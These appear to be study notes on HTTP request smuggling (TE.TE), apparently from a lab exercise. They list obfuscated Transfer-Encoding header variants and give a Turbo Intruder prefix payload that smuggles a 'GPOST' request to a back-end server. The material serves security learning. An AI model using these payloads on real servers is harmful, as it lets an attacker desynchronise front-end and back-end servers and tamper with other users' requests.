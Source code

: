 There are potentially endless ways to obfuscate the `Transfer-Encoding` header. For example:

>Transfer-Encoding: xchunked 
>
>Transfer-Encoding : chunked 
>
>Transfer-Encoding: chunked 
>Transfer-Encoding: x 
>
>Transfer-Encoding:[tab]chunked [space]
>
>Transfer-Encoding: chunked X: X[\n]
>
>Transfer-Encoding: chunked 
>
>Transfer-Encoding : chunked`
 `
_To uncover a TE.TE vulnerability, it is necessary to find some variation of the
`Transfer-Encoding` header such that only one of the front-end or back-end servers processes it, while the other server ignores it

_Depending on whether it is the front-end or the back-end server that can be induced to NOT to process the obfuscated `Transfer-Encoding` header, the remainder of the attack will take the same form as for the CL.TE or TE.CL vulnerabilities.

---

##### Demo Obfuscating the Transfer Encoding header
This demo involves a front-end and back-end server. The two servers handle duplicate HTTP request headers in differently. 
The front-end server rejects requests that aren't using the GET or POST method.

##### Goal: smuggle a request to the back-end server, causing the next request processed by the back-end server appears to use the method `GPOST`.
_Turbo Intruder can be used again here too.
###### Solving a TE.TE is very similar to a TE.CL

##### The Turbo Intruder payload set up:

>` # This will prefix the victim's request. Edit this accordingly.
         `prefix = '''
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
>
x=1'''
>
Removed the URL from the smuggled request. 
These attacks are virtually automated

---

A series of these requests in this order successfully smuggled in a 2nd request labled GPOST

